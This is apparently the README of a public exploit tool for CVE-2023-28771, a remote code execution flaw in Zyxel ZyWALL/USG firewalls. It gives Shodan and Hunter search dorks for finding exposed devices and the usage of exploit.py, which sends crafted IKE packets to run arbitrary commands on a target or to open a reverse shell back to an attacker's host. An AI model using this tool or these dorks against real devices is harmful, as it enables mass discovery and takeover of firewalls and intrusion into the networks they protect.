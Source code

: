 # CVE-2023-28771
Zyxel ZyWALL/USG Remote Code Execution.

- Shodan dork:
```
/ext-js/app/common/zld_product_spec.js
```
- [Hunter](https://hunter.how) dork:
```
web.body="/ext-js/app/common/zld_product_spec.js"
```


## Install
Requires the scapy Python library for sending IKE packets.

```
pip install -r requirements.txt

```
```
usage: exploit.py [-h] [--cmd CMD] [--lhost LHOST] [--lport LPORT] rhost

positional arguments:
  rhost

options:
  -h, --help     show this help message and exit
  --cmd CMD
  --lhost LHOST
  --lport LPORT
```

Either use --cmd to run an arbitrary command, or use --lport and --lhost to spawn a revshell
